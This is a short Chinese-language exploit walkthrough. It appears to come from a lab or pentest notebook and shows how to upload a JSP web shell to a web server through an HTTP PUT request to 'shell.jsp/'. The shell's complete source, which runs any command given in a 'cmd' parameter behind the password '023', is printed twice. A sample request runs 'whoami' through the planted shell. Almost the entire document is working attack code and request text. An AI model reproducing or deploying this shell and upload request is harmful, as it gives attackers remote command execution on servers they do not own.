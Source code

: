###### 文件名

```
shell.jsp/
```

###### 文件内容

```jsp
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
 
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

![image-20240716152244459](https://image.201068.xyz/assets/image-20240716152244459.png)

```
PUT /shell.jsp/ HTTP/1.1
Host: 192.168.70.14:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 663

<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp
 
+"\\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();}%><%if("023".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd"))+"</pre>");}else{out.println(":-)");}%>
```

###### get方式执行命令

浏览器`get`方式执行命令

```
shell.jsp?pwd=023&cmd=whoami
```

http://192.168.70.14:8080/shell.jsp?pwd=023&cmd=whoami

![image-20240716152557788](https://image.201068.xyz/assets/image-20240716152557788.png)
